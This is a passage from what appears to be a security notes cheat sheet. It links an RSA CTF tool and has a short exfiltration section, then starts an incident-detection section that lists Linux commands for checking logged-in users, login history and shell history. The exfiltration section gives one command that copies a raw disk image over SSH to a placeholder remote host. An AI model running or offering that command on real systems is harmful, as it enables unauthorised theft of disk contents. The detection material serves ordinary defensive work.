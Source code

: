 Handy tool for RSA: [RsaCTFTool](https://github.com/Ganapati/RsaCtfTool)

# Exfiltration

Encrypted Exfiltration channel:

*Exfiltrate the contents of an image via SSH to another machine, compressing (-C) the content.*

```sh
dd if=/dev/rdisk0s1s2s bs=65536 conv=noerror,sync | ssh -C user@<IP> "cat >/tmp/image.dd"
```

# Detection

This section cover detection malicious activity on system and could be a good
list of stuff to clean up.

Stages:

* Preparation
* Identification
* Containment
* Eradication
* Recovery
* Lesson Learned

## Linux

### Users

List connected users:

```sh
w
who
```

Linux systems keep a trace of the connections. keeping in memory user, IP and
even length of the connection:

```sh
last
```

List connection errors:

```sh
lastb
```

List the recent history the current user:

```sh
history

su otheruser
history
```
